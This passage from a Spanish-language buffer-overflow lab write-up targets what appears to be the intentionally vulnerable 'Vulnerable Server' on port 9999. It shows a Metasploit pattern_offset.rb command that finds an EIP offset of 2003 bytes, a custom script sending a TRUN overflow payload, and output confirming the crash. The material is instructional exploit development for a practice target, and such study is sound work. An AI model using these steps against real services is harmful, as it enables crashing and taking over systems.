 Vamos a copiar el **EIP** y usaremos **pattern_offset.rb** para descubrir la cantidad exacta de bytes que debemos usar:
```bash
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 386F4337
[*] Exact match at offset 2003
```
Parece que solo necesitamos **2003 bytes**.

Vamos a comprobarlo:

```bash
python3 spiker.py --ip-addr 192.168.1.100 --port 9999 --length 2003

[+] Conectando a 192.168.1.100:9999...


[+] Recibiendo Banner: 
------
Welcome to Vulnerable Server! Enter HELP for help.

------

[*] Payload Enviado: b'TRUN /.:/AAAAAAAAAAAAAAAAAAAAAA....AAAAAAA\r\n'


[!] No hay respuesta, el servidor podría haber crasheado.

[+] Cerrando conexión.
```

Y listo, hemos crasheado el binario con la cantidad exacta de bytes:

<p align="center">
<img src="/assets/images/THL-writeup-pila/Captura20.png">
</p>